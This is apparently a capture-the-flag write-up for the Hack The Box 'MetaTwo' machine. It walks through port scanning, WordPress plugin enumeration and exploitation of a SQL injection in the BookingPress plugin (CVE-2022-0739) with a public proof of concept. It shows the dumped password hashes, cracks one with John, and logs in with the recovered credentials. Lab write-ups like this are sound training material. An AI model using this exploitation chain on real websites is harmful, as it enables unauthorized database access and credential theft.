 # Box: MetaTwo
# Level: Easy
# OS: Linux
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.129.228.95 -v -p- -T4```

```
```
From our nmap scan we have 3 open ports, port 21 which runs ftp, port 22 which runs ssh and port 80 which runs http. We'll begin our enumeration today from port 21.



# Enumeration (Port 21)

Lets connect to the ftp server with anonymous login

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2f5531f2-d127-4e1b-b73a-be3969838d44)

oops, anonymous login now allowed.

There's not much to do here, lets move our enumeration to port 80


# Enumeration (Port 80)

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/56f533a2-04c3-4dab-ab6d-dac098d5ee7a)

We'll add that domain name to our ```/etc/hosts``` file, then try to load the webpage again

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/02be7144-38e9-43c2-ba0d-b591152d54fc)

This is a wordpress site

lets fireup our wpscan tool to help us enumerate this webpage for plugins

command:```wpscan --url http://metapress.htb --plugins-detection aggressive -t 60```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6e2f9e52-ca78-4a75-bb88-c1fb1977f00b)

We found 3 plugins, the version for the plugin ```bookingpress-appointment-booking``` actually has a public exploit

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/afdc3fc7-ae76-49fc-83ed-a1bc30ff52e1)

Lets exploit this




# Exploitation

You can download the exploit we'll be using [here](https://github.com/destr4ct/CVE-2022-0739/blob/main/booking-press-expl.py)

Running the exploit

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/metatwo]
└─$ python booking-press-expl.py                                       
- BookingPress PoC
usage: booking-press-expl.py [-h] -u URL -n NONCE
booking-press-expl.py: error: the following arguments are required: -u/--url, -n/--nonce
```
We need to provide the arguments ```--url``` and ```--nonce```, we have the url, but how do we get the nonce??

Navigate to the ```/events``` directory

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a23e6c33-5eba-4842-9b61-f85fba12f1dd)

Lets view the page source

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3e3e5933-82e2-4203-b96a-edf36371f374)

nice nice, we found the nonce, now lets run the exploit again

command:```python booking-press-expl.py -u http://metapress.htb/ -n 2e8c753422```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/metatwo]
└─$ python booking-press-expl.py -u http://metapress.htb/ -n 2e8c753422
- BookingPress PoC
-- Got db fingerprint:  10.5.15-MariaDB-0+deb11u1
-- Count of users:  2
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.|
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70|
```
Exploiting the SQLi, we were able to dump the db. Lets crack these hashes using john.

Save the hashes in a file say "hash", then we'll use john

command:```john hash --wordlist=/usr/share/wordlists/rockyou.txt```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/metatwo]
└─$ gedit hash            
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/metatwo]
└─$ cat hash             
admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/metatwo]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
partylikearockstar (manager)     
1g 0:00:09:29 DONE (2023-11-05 14:07) 0.001754g/s 25168p/s 25363c/s 25363C/s !!!@@@!!!..*7¡Vamos!
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed. 
```

Lets login with the creds

username:```manager```        password:```partylikearockstar```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3f77ff3a-dc63-455b-94d8-c6860a8cc74f)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cc06e7e4-5bbc-4053-a229-900f59ef4a52)

We are logged in
































